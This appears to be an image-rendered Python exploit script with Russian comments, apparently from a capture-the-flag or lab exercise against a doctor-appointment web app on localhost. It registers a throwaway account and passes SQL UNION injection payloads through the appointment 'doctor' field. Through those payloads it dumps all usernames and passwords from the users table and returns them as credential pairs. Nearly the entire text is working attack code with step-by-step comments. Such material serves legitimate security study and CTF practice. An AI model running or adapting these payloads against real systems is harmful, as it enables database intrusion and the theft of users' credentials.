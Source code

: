 ```python
    res = session.get(url + f"/appointments/{appointment_id}/info")
    if res.status_code != 200:
        print(res.text)
        raise Exception("Failed to get appointment")
    soup = BeautifulSoup(res.text, "html.parser")
    return [
        soup.find("div", {"class": "username"}).text.strip(),
        soup.find("div", {"class": "spec"}).text.strip()[len("specialization: ") :],
    ]


# Главная функция
def pwn(url):
    # Для начала формируем новые логин и пароль
    username = f"enigma-" + os.urandom(8).hex()
    password = os.urandom(16).hex()
    print(f"[*] Registering user {username}:{password}")

    # Делаем сессию и создаем аккаунт при помощи функции register()
    session = requests.Session()
    register(session, url, username, password)

    # Далее создаем запись ко врачу, но при этом используем необходимую нам нагрузку
    def sqli(payload):
        # Вызываем функцию create_appointment(), но передаем ей вместо реального доктора полезную нагрузку - аргумент payload
        appointment_id = create_appointment(session, url, payload)
        print(f"[*] Created appointment {appointment_id}")
        return get_appointment(session, url, appointment_id)


    # Вызываем функцию sqli(), которая поможет нам добраться до БД. В функцию передаем payload, который пойдет дальше в поле doctor
    results_usernames = sqli(
        "1' UNION SELECT 1, CAST(COUNT(*) as TEXT), string_agg(username, '\n') FROM users LIMIT 1 -- "
    )

    results_passwords = sqli(
        "1' UNION SELECT 1, CAST(COUNT(*) as TEXT), string_agg(password, '\n') FROM users LIMIT 1 -- "
    )

    # Вычисляем количество пользователей
    count = int(results_usernames[0])
    print(f"[*] Found {count} users")

    # Получаем логины и пароли
    data_usernames = results_usernames[1].split("\n")
    data_passwords = results_passwords[1].split("\n")

    creds_array = []

    for i in range(0, count):
        creds_array.append([data_usernames[i], data_passwords[i]])

    return creds_array


if __name__ == "__main__":
    print(pwn("http://localhost:1337"))
```
